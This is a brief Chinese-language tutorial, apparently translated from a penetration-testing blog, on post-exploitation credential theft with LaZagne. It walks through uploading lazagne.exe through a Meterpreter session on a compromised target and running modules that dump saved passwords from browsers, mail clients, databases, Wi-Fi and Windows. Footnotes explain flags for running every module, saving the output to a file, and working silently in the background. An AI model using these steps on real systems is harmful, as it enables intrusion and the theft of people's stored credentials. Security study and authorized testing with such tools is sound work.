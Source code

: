 ## 使用LaZagne对保存的密码进行后利用 [^1]

### **LaZagne里出名的脚本** [^2]

### **目标软件 ** [^3]

### **语法和参数**

![](http://ww1.sinaimg.cn/large/007DJod2gy1g0phekdbf3j30i508zdg3.jpg)

### **实现Meterpreter并上传LaZagne**

`upload lazagne.exe ./` [^4]

`lazagne.exe -h`

`lazagne.exe mails`

`lazagne.exe windows`

`lazagne.exe browsers`

`lazagne.exe databases`

`lazagne.exe wifi`

`lazagne.exe all` [^5]

`lazagne.exe all -oN` [^6]

`lazagne.exe all -vv `[^7]

`lazagne.exe all -quiet -oN` [^8]

[原文](https://www.hackingarticles.in/post-exploitation-on-saved-password-with-lazagne/)

[项目地址](https://github.com/AlessandroZ/LaZagne)

---

[^1]: 该 LaZagne 是一个开源应用程序。它检索系统上存储的密码

[^2]: KeeThief 、mimipy 、mimikatz 、pypykatz、 creddump、 chainbreaker、 pyaes、 pyDes、 秘密存储等等

[^3]: 火狐、谷歌浏览器、歌剧、Skype、PostgreSQL、雷鸟、KeePass、CoreFTP、FileZilla等等

[^4]: 现在我们在目标系统上有 LaZagne ，现在是枚举密码的时候了。在meterpreter shell上使用shell命令到达目标系统上的命令行。

[^5]: 该参数运行LaZagne中的所有模块。选择此参数后，脚本将在后台运行，该脚本将提取存储在目标系统上的所有登录凭据

[^6]: 这个参数应该用一些参数运行，否则会产生错误（我们在这里使用所有参数）。此参数是可选的运行。此参数不仅会在终端屏幕上打印输出，还会在运行的目录中创建一个文件，并将其与脚本的输出一起写入。

[^7]: 这个参数应该用一些参数运行，否则会产生错误（我们在这里使用所有参数）。此参数是可选的运行。默认情况下，在 LaZagne中，我们有两个级别的详细程度。它们是0级和1级。如果没有给出参数，则自动选择0级。但是当我们给出 -vv 参数时，它会增加提取的冗长度。输出也会改变。现在，LaZagne强行运行其库中的每个脚本，并尝试提取越来越多的凭据

[^8]: 这个参数应该用一些参数运行，否则会产生错误（我们在这里使用所有参数）。此参数是可选的运行。此参数不会在终端屏幕上打印任何输出。脚本确实在后台运行，但是没有提取密码的可见性，因此我们将参数与前面讨论过的oN参数一起使用，因为它在运行的目录中创建了一个文件并将其与脚本的输出一起写入。
